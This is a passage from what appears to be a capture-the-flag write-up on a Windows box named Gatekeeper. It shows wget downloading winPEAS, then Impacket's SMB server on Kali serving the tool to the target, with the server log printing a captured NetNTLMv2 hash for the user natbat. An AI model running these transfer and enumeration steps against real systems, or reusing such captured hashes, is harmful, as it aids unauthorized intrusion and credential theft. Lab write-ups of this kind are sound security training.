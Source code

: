 This does not work, so I am going to need to find a different path to priv esc.

# priv esc

First let me send over winpeas


wget on linux to send over wtih 

`wget https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx86.exe`


I then use impackest smb server on kali and the copy command to get it on windows

kali
```
└─$ /usr/share/doc/python3-impacket/examples/smbserver.py kali .                                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                            
                                                                                                                    
[*] Config file parsed                                                                                              
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                              
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                              
[*] Config file parsed                                                                                              
[*] Config file parsed                                                                                              
[*] Config file parsed                                                                                              
[*] Incoming connection (10.10.58.134,49203)                                                                        
[*] AUTHENTICATE_MESSAGE (GATEKEEPER\natbat,GATEKEEPER)                                                             
[*] User GATEKEEPER\natbat authenticated successfully                                                               
[*] natbat::GATEKEEPER:aaaaaaaaaaaaaaaa:33e7bd5634e51080996a6856de32e8ee:01010000000000000004dabca7b5d801d9d0181cfac
3dd2000000000010010004600440065004300530045006f004b00030010004600440065004300530045006f004b00020010006c0071005500510
04e004b0065004900040010006c007100550051004e004b0065004900070008000004dabca7b5d80106000400020000000800300030000000000
0000000000000002000007e9045fca604931b264ccb5d2d348c5dc70b1152fc6a6b04879c1282e07b9c350a00100000000000000000000000000
00000000009001e0063006900660073002f00310030002e0036002e00370037002e0033003800000000000000000000000000               
[-] Unknown level for query path info! 0x109                                                                        
[*] Disconnecting Share(1:IPC$)    
```
